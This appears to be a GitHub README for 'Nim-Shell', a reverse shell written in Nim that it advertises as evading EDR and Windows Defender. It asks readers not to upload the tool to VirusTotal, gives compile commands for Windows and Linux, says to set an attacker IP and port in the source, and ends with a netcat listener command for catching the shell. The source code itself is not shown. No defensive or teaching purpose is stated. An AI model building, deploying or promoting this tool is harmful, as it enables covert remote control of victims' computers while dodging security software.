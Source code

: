 [![trhacknon](https://img.shields.io/badge/MadeBy-Trhacknon-yellow)
# Nim-Shell
<img src="https://github.com/tucommenceapousser/nim-shell/blob/main/nim.png">
Reverse shell that can bypass EDR and windows defender detection

# Please do not upload to VirusTotal

# 𝗜𝗡𝗦𝗧𝗔𝗟𝗟𝗔𝗧𝗜𝗢𝗡 𝗜𝗡𝗦𝗧𝗥𝗨𝗖𝗧𝗜𝗢𝗡𝗦
    $ apt install nim

# clone on replit
[![Run on Replit](https://replit.com/badge/github/tucommenceapousser/nim-shell)](https://replit.com/github/tucommenceapousser/nim-shell)

[![Run on Replit](https://replit.com/badge/github/tucommenceapousser/nim-shell)](https://replit.com/github/tucommenceapousser/nim-shell)![](https://img.shields.io/badge/nim-%23FFE953.svg?style=for-the-badge&logo=nim&logoColor=white)


 <a href="https://replit.com/github/tucommenceapousser/nim-shell">
<img src="https://replit.com/badge/github/tucommenceapousser/nim-shell">

[![Run on Replit with Nim](https://img.shields.io/badge/nim-%23FFE953.svg?style=for-the-badge&logo=Nim&logoColor=orange)](https://replit.com/github/tucommenceapousser/nim-shell)
</a>
# Compilation

# for windows
nim c -d:mingw --app:gui nimshell.nim


<img src="https://github.com/tucommenceapousser/nim-shell/blob/main/scwin.jpg">


# Compilation

## for linux:

nim c -d:mingw --app:gui nimshelllin.nim



<img src="https://github.com/tucommenceapousser/nim-shell/blob/main/sclin.jpg">

Change the IP address and port number you want to listen to in the nimshell.nim file according to your device.

<img src="https://github.com/emrekybs/nim-shell/blob/main/2.png">

# and listen

     $ nc -nvlp 4444
